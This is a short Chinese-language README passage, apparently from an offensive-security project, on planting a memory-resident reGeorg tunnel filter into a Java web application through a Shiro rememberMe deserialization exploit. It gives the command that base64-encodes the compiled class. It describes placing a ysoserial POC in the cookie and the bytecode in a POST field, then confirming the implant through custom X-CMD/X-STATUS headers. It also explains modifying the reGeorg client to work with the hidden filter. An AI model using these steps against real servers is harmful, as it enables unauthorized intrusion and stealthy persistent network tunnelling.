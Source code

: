


编译后使用如下命令得到其字节码的base64

```bash
cat MemReGeorg.class|base64 |sed ':label;N;s/\n//;b label'
```



### 测试

在Cookie处填入 rememberMe=[ysoserial生成的POC]，POST包体填入classData=[MemReGeorg类字节码的base64]，注意POST中参数需要URL编码，发包

![image-20200703151537094](README/image-20200703151537094.png)



然后带上`X-CMD:l3yx`header头再请求页面，返回`X-STATUS: OK`说明reGeorg已经正常工作

![image-20200703151808170](README/image-20200703151808170.png)



reGeorg客户端也需要修改一下，原版会先GET请求一下网页判断是否是reGeorg的jsp页面，由于这里是添加了一个filter，正常访问网页是不会有变化的，只有带上相关头才会进入reGeorg代码，所以需要将客户端中相关的验证去除
